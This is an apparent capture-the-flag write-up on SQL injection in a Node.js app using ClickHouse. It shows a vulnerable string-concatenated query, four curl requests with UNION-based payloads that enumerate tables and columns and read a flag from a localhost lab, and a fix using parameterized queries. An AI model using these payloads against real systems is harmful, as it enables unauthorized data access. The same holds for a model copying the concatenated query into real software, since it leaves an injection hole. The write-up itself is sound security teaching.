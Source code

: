 # sqli101 - part 3

## Vulnerability
Unescaped user inputs used in the following SQL query.
```js
db.testQuery("SELECT username\nFROM user\nWHERE username LIKE '%" + search + "%'")
```

## Exploitation
We can list the databases using:
```bash
curl --request POST \
  --url http://localhost:80/user_lookup \
  --header 'Content-Type: application/json' \
  --data '{
  "search": "'\'' AND 1=2 UNION ALL SELECT distinct database FROM system.tables WHERE '\''%'\''='\''"
}'
```

We can find the table flag using:
```bash
curl --request POST \
  --url http://localhost:80/user_lookup \
  --header 'Content-Type: application/json' \
  --data '{
  "search": "'\'' AND 1=2 UNION ALL SELECT name FROM system.tables WHERE database='\''default'\'' AND '\''%'\''='\''"
}'
```

We can find the column flag in the table flag using:
```bash
curl --request POST \
  --url http://localhost:80/user_lookup \
  --header 'Content-Type: application/json' \
  --data '{
  "search": "'\'' AND 1=2 UNION ALL SELECT name FROM system.columns WHERE database='\''default'\'' AND table='\''flag'\'' AND '\''%'\''='\''"
}'
```

And finally read the flag by querying the table and column found:
```bash
curl --request POST \
  --url http://localhost:80/user_lookup \
  --header 'Content-Type: application/json' \
  --data '{
  "search": "'\'' AND 1=2 UNION ALL SELECT flag FROM default.flag WHERE '\''%'\''='\''"
}'
```

## Fix
User inputs should be validated (can use a regex to restrict to a subset of ascii characters).  
User inputs can also be escaped.

It is also possible to use query parameterized queries. (cf [ClickHouse documentation](https://clickhouse.com/docs/en/interfaces/cli#cli-queries-with-parameters)).  
Implementing that solution changes two files, `routes/index.js` and `database.js`

```js
db.testQuery("SELECT username\nFROM user\nWHERE username LIKE '%{search:String}%'", {'search': search})

async testQuery(query, parameters) {
    return this.clickhouse.query(query, {'params': parameters}).toPromise();
}
```
